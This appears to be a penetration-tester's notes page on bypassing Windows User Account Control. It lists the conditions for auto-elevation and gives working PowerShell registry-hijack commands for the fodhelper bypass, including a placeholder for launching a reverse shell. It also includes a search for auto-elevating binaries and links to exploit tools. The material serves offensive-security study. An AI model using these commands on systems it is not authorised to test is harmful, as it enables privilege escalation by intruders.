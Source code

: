 # ⭕ UAC Bypass

{% embed url="https://www.fuzzysecurity.com/tutorials/27.html" %}

{% embed url="https://www.greyhathacker.net/?p=796" %}

{% embed url="https://github.com/hfiref0x/UACME" %}

some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel’s functionality and some executables provided with Windows.

{% hint style="info" %}
x86–32/x64 Windows 7/8/8.1/10 (client, some methods, however, works on server version too).Admin account with UAC set on default settings required.
{% endhint %}

condition to meet auto-elevate:

* The executable must be signed byt the windows publisher
* The executable must be contained in a trusted directory, like **`%SystemRoot%/System32/` or `%ProgramFiles%/\`**
* Executable files (.exe) must declare the autoElevate element inside the manifests.
* sigcheck tool can be used to view the manifest for autoelevate privileges

### <mark style="color:orange;">**Fodhelper**</mark>

Fodhelper.exe is one of Windows default executables in charge of managing Windows optional features, including additional languages, applications not installed by default, or other operating-system characteristics. Like most of the programs used for system configuration, **fodhelper can auto elevate** when using default UAC settings so that administrators won’t be prompted for elevation when performing standard administrative tasks. While we’ve already taken a look at an autoElevate executable, unlike msconfig, fodhelper can be abused without having access to a GUI.

```
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
cmd> fodhelper

Spaw anything:
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value 'your-reverse-shell' -Force
```

![](<../../.gitbook/assets/image (120).png>)

{% embed url="https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/" %}

{% embed url="https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/" %}

{% embed url="https://github.com/winscripting/UAC-bypass/blob/master/FodhelperBypass.ps1" %}

#### <mark style="color:green;">using metasploit:</mark>

{% embed url="https://github.com/rapid7/metasploit-framework/pull/8434/files" %}

### <mark style="color:orange;">Other ways</mark>&#x20;

{% embed url="https://github.com/FULLSHADE/Auto-Elevate" %}

#### <mark style="color:green;">find auto-elevating applications on windows 10:</mark>

```
# 64 bit apps
Get-ChildItem "C:\Windows\System32\*.exe" | Select-String -pattern "<autoElevate>true</autoElevate>"

# 32 bit apps
Get-ChildItem "C:\Windows\SysWOW64\*.exe" | Select-String -pattern "<autoElevate>true</autoElevate>"
```

### <mark style="color:orange;">EVENTVWE.exe & Registry Hijacking</mark>

{% embed url="https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/" %}

### <mark style="color:orange;">TpmInit.exe</mark>

{% embed url="https://uacmeltdown.blogspot.com/2016/08/bypassing-user-account-control-uac.html" %}
